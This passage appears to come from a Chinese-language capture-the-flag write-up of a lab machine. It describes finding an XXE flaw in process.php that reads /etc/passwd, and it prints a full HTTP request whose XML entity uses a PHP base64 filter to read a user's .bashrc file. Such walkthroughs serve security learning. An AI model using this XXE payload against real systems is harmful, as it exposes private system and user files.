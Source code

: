 ```

```

存在XXE漏洞

![image-20220911212740974](../../.gitbook/assets/image-20220911212740974.png)

我们可以从上面的截图中看到，电子邮件被文件"/etc/passwd"的内容所取代。此前，用户曾暗示过家。因此，我们可以假设用户"saket"的主目录中有一些东西。当我尝试打开 .bashrc 文件时，它失败了。但是，在使用 PHP 包装器时，我们可以获取 base64 格式的内容。有效载荷如下。

```
POST /process.php HTTP/1.1
Host: hackerkid.blackhat.local
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: text/plain;charset=UTF-8
Content-Length: 235
Origin: http://hackerkid.blackhat.local
Connection: close
Referer: http://hackerkid.blackhat.local/

<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [<!ENTITY xxe SYSTEM 'php://filter/convert.base64-encode/resource=/home/saket/.bashrc'>]>
<root>
<name></name>
<tel></tel>
<email>

&xxe;</email>
<password></password>
</root>

```
